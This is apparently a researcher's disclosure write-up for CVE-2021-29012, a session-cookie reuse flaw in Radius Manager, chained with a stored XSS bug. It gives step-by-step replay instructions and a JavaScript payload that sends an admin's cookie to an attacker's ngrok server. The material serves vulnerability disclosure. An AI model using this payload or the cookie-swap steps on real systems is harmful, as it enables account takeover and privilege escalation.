




# CVE-2021-29012 (Broken Session Management)

When an admin user logs in, their session cookie is given & doesn't expire upon logging out. Instead the session cookie is temporarily disabled until the admin logs in again. The session cookie doesn't change so if an attacker manages to steal a session cookie, then they can simply reuse it when the admin is logged in again and impersonate them. And if they aren't successful at logging in the first time due to the admin being logged out, they can simply keep trying until the admin is logged in again and get a successful login.

Successful exploitation requires that you have access to the Radius Management web interface and be able to make requests so you can simply change out the session cookie header when making HTTP requests.

This vulnerability can be exploited in order to elevate privileges when chained together with CVE-2021-29011 in order to gain the session cookie of another user with elevated privileges.

## Demo Videos

We simply swap an admin's cookie for a low privileged user's cookie and are able to assume the privileges of the admin as shown here:

[Dropbox - session-impersonation-2021-03-19_23.11.19.mkv](https://www.dropbox.com/s/9ootf6udj761bbh/session-impersonation-2021-03-19_23.11.19.mkv?dl=0)

The overall process that I went through to exploit this is:

1. Create an account with no privileges
  
2. Grab the admin session cookie
  
3. Make a request that requires privileges such as creating a user using the low privilege account
  
4. Request is denied due to no privileges
  
5. Resend the request but this time modify the cookie parameter so that it's replaced with the admin session cookie
  
6. Request is successful & we can now make requests on behalf of the admin user while the admin user is logged in.


# Chaining CVEs Together

This section details chaining together CVE-2021-29012 & CVE-2021-29011 in order to take an admin's session cookie & perform requests on their behalf.

There are multiple fields that are vulnerable to cross-site scripting but I could only find 1 field (the access point description field) that could fit an entire script for extracting a cookie & sending it off to an attacker for use in session hijacking.

## Tools Used:

1. Ngrok & Python's simple HTTP server to simulate an attacker's server receiving the session cookie

## Proof of Concept

Once we place our script inside the Access Point's description, anytime a user lists the available access points, we will receive their session cookie on our server & be able to impersonate them.

### Cross Site Scripting (XSS)

We first need to inject our script into an input field so that whenever an admin logs in & lists the available access points, their cookie is sent to us (the attacker in this scenario).

The script used that will be injected is:

```javascript
<script> 
var xl = new XMLHttpRequest(); 
const url = 'http://dat.ngrok.io/cookie=' + document.cookie; 
xl.open("GET", url, false); xl.send();alert(xl.responseText);
</script>
```

where dat is the subdomain generated by ngrok. And we will be injecting it into the description field when adding/editing an access point.

After listing the available access points as an admin, this is what an attacker would see:



As you can see, we have everything we need in order to impersonate the admin user and this was achieved just by having them list the available access points. This of course requires that an attacker already have an account registered on the Radius Manager with sufficient privileges to add/edit an access point.

### Broken Session Management Exploitation

The next stage of the attack would be abusing the broken session management in order to make requests on someone else's behalf without their interaction. This simply involves intercepting the request exchanging the cookie parameter with the stolen one:

1. Make the original request for adding a user from an account with low privileges & you will get a response that looks like this:



2. Now do repeat step 1 & sniff the request out with Firefox's network monitoring tool (inspect element > network):



3. Right-click the request & hit *Edit and Resend* & change the *Cookie: PHPSESSID* value for the stolen cookie & change the *login_admin* value for the value provided by the stolen session cookie. After doing so & resending the request, now we can make requests as the admin user:



* **NOTE: This requires the admin to be currently logged in. If the admin is logged out then the session cookie is invalid until they login again. But the session cookie does not change once they log out. It stays the same.**
